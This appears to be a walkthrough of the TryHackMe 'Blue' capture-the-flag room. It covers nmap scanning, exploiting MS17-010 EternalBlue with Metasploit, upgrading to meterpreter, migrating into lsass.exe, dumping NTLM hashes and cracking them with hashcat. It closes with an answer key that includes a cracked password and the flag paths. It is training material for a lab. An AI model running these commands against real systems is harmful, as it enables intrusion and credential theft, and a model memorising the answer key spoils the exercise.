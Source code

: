 Hi!

Let's start!

1. To begin with, we must classically connect to a VPN using OpenVPN.
Go to your [profile](https://tryhackme.com/access), download the file to connect, go to "/Downloads" and create the new
terminal:

```$ openvpn <Name>.ovpn ```

2. After that, we open the quest no. 1 and launch the instance (Deploy).

3. After all this, we can slowly start. The first thing we do is scan the machine:

``` $ nmap -Pn <ip> ```

Scanning shows us the services and ports on which they operate. Let's try to find out about distribution.

```$ nmap -A -T 5 <ip> -vv```

We can see that the machine is Windows 7.

4. Now we need to find out what the machine is vulnerable to (ms ?? - ???). So we type:

```$ nmap --script vuln <ip> -vv```

And we see smb-vuln-ms17-010 ( [ms17-010](https://www.exploit-db.com/exploits/42315) ).

5. Now let's try to access the machine.

6. Run [metasploit](https://www.metasploit.com/):

```$ msfconsole```

Search exploit to this susceptibility in msf:

```$ search ms17–010```

Now you see list available attacks. We due to the fact that we know the distribution, we choose this on Windows 7.

``` $ use 2 ``` (windows/smb/ms17_010_eternalblue)

7. Now we must find out what to options we must refill to attack:

```$ show options```

We see RHOST, so we complete it:

```$ set RHOSTS <ip>```

And run script:

```$ run```

We should access the console!

If necessary, make sure the exploit is working properly. Click enter and you should see a DOS shell.
Try to enter the shell background (CTRL + Z). If it fails, you may need to reboot the machine (deploy), but before that try running the script again and see if it works.

Push enter.

8. If you haven't entered the shell background (CTRL + Z). Find out on the internet how
convert shell to meterpreter in metasploit. What is the name of the post module we will use.
(Exact path, similar to the name of the exploit used).

9. Let's go back to the metasploit first:

```$ background```

Let's verify that the session still exists:

```$ session```

We should see information about the session, its type, etc.

10. Let's try to change shell to meterpreter:

```$ use multi/manage/shell_to_meterpreter```

Fill in all missing options to capture shell:

```
$ set LPORT 1234
$ set SESSION 1
```

Run:

```$ run```

If that doesn't work try create shell again.

11. Let's see the existing sessions:

```$ session```

We should see the second session, which is of type meterpreter.

Let's try to connect to it:

```$ sessions 2```

We should be able to see the meterpreter console.

12. Let's check if we escalated to NT AUTHORITY \ SYSTEM. Run this command to do this:

```$ getsystem```

We can freely change the shells from shell to meterpreter.

Let's check who we are:

```
$ shell
$ whoami
```

Now we back to meterpreter ( CTRL + Z ).

13. Just because we are a system does not mean that our process is also. Let's check the list of running processes:

```$ ps```

And remember the process id (PID).

14. Let's migrate the lsass.exe process. Having a meterpreter let's enter:

```$ migrate 708```

15. Let's dump non-primary user passwords for cracking later.

In our elevated shell (meterpreter) run the command:

```$ hashdump```

This will dump all password hashes on the computer if we have the appropriate permissions to do so.

Which user is not the default?

16. Copy the hashes to the file to crack. (these [NTLM](https://en.wikipedia.org/wiki/NT_LAN_Manager) hashes, paste them as you see in the console).

Let's organize the hash to crack. (user: hash <- the last "cluster of letters" in the line after : and before :::)

e.g.
```Administrator:31d6cfe0d16(...)```

17. I will use the hashcat to crack the hash:

``` $ hashcat -a 0 -m 1000 <HashFile>.txt <WordlistToCrack e.g. rockyou.txt>.txt --force --username --show ``` <-- show only after breaking

After a while we should get the password to Jon (alqfna22)

18. Now let's look for the flags:

1) The first one is in C:\flag1.txt

2) Next in C:\Documents and Settings\Jon\Documents\flag3.txt

3) And the last one in C:\Windows\System32\config\flag2.txt

Each flag can be shown with a command: ```type```
e.g. ``` type flag1.txt ```

19. Congratulations you have completed all the tasks. Good luck!

# Completing the headings

<details>
<summary>Task 1.</summary>

```
  2) 3

  3) ms17-010
```
</details>


<details>
<summary>Task 2. </summary>

```
  2) exploit/windows/smb/ms17_010_eternalblue

  3) RHOSTS
```
</details>


<details>
<summary>Task 3. </summary>

```
  1) post/multi/manage/shell_to_meterpreter

  2) SESSION

```
</details>


<details>
<summary>Task 4. </summary>

```

  1) Jon

  2) alqfna22

```
</details>

<details>
<summary>Task 5. </summary>

```

  1) Write flag number 1

  2) Write flag number 2

  3) Write flag number 3 


```
</details>



